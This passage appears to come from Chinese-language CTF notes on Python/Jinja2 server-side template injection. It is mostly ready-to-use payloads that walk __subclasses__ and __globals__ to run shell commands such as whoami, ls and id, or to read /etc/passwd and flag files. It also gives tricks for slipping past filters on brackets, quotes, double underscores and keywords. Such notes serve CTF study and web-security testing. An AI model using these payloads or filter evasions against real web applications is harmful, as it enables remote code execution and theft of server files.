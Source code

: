 ```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
```

- 命令执行_方法三_利用 `commands` 进行命令执行

```python
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

## 遇到SSTI题目时的思路
- 考虑查看配置文件或者考虑命令执行

## 花式绕过
### 绕过中括号
- `pop()` 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值，或者用 `getitem`

```python
__mro__[2]== __mro__.__getitem__(2)
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
```

### 绕过引号
- `request.args、request.values、request.cookies` 是 flask 中的属性，为返回请求的参数，这里把path当作变量名，将后面的路径传值进来进而绕过了引号的过滤

```python
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
```

### 绕过双下划线
- 同样利用 `request.args、request.values、request.cookies`

```python
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

### 拼接绕过
```python
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()
```

